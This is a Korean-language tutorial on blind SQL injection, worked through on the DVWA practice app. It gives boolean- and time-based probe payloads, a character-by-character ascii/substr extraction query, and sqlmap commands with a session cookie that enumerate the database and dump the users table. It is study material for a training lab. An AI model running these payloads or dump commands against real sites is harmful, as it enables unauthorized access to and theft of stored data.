

# Blind SQL INJECTION

Blind SQL injection은 일반 SQL injection처럼 우회하는 방법이 비슷하지만 세부적으로는 조금 다르다.  
SQL injection은 직접적으로 명령을 입력하여 해킹을 시도하는 방면에 Blind SQL injection은 간접적으로 값을 알아낸다.  

왜 간접적으로 알아내는가?  
그 이유는 우리가 웹으로부터 받는 응답이다.  
우리가 받는 응답은 True, False의 경우 두가지중 하나이기 때문이다.  

DVWA에 있는 예제로 설명을 진행한다. 

우리는 injection을 진행하기 위하여 쿼리문을 작동시킬 수 있는지 부터 확인해야한다.  
그 확인하는 방법은 두가지가 있다.  

>우선 웹으로부터 True를 표시하는 값을 먼저 찾는다.  
>그 후에 둘중에 하나를 시도한다.  
>1' or 1=1 로 쿼리문 작동확인
(Boolean based)  
>1’ and sleep(3)#  3초뒤 웹이 반응하는지 확인
(Time based)

mySQL에서는 information-schema(colums)에 핵심 점보들을 모두 담고있다.  
(db, table, data등)  

>[low]

이런 입력을 생각해보자.  
1' and ascii(substr((select first_name from users where user_id='1'),1,1))>91#  
이 입력은 first_name값을 users table에서 id가 1인 문자열중 첫번째 1글자가  91보다 큰지 확인한다.  
and로 연결되었고 우리는 1이 ture를 반환하는 사실을 알기 때문에 이름의 첫글자 값이 91보다 크다면 true를 반환한다는 사실을 알 수 있다.  
이렇게 값을 비교하는 방법으로 정확한 데이터 값을 알아낼 수 있다.  

>sqlmap으로 데이터값 알아내기  
>자신의 쿠키 값을 구한다.  
>python sqlmap.py -u "http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=5f8cff56374867f60ae22793532fd0d6; security=low"  
>___________  
>python sqlmap.py -u "http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=5f8cff56374867f60ae22793532fd0d6; security=low" --current-db        ->db이름 알아냄  
>____  
>python sqlmap.py -u "http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=5f8cff56374867f60ae22793532fd0d6; security=low" -D dvwa --tables        ->db의 테이블들을 알아냄  
>___  
>python sqlmap.py -u "http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=5f8cff56374867f60ae22793532fd0d6; security=low" -T users -dump           테이블의 모든값을 알아냄  
>___  

   
   

>[medium]

문제를 보자.

프록시를 이용해야한다.  
프록시를 이용하여 1 or 1=1 를 넘겨주면 쿼리문을 사용할 수 있다.  

>[high]  

이 문제에서는 쿼리문을 다음값을 전해주어 작동하는지 확인할 수 있을것이다.  
1' or 1=1#  

medium과 high에서는 sqlmap이 적용되지 않는다. 다른방법으로 자동화시켜서 값을 얻어야 할 것이다.